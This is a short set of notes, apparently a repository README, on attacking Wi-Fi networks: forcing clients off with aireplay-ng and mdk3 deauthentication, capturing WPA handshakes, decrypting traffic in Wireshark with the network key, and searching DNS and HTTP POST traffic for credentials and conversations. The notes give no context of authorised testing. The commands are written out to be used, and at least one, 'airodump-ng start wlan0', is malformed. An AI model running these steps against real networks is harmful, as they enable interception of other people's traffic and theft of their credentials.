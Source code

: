 Basic:

	1) Try to get EAPOL packets, this packets contains the handshakes.

	We can change the network scanning channel if we need. (add WI-FI toolbar to change easily)

	2) If you have handshakes, go to preferences, protocols, ieee 802.11 and add tha wpa-psk key in order to decrypt all the traffic for every interface on the network.
	
	3) Scan for DNS request and watch all traffic from computers and smartphones.

	Open statistics, resolved adresses, to show all the DNS resolutions.
	
	4) Search for HTTP request (and POST) and examine packets to find credentials, conversations, etc.

	- http.host == "192.168.0.110:8080"

Sniffing the network:

	airmon-ng start wlan0
	airodump-ng start wlan0

Start wireshark on wlan0mon and capture handshakes with one of these two commands:
	
	aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:FD:FB:C2 wlan0mon
	mdk3 wlan0mon

Search on wireshark for desauthentification packets and EAPOL packets and then, continu the "Basic" process of capturing explained before.

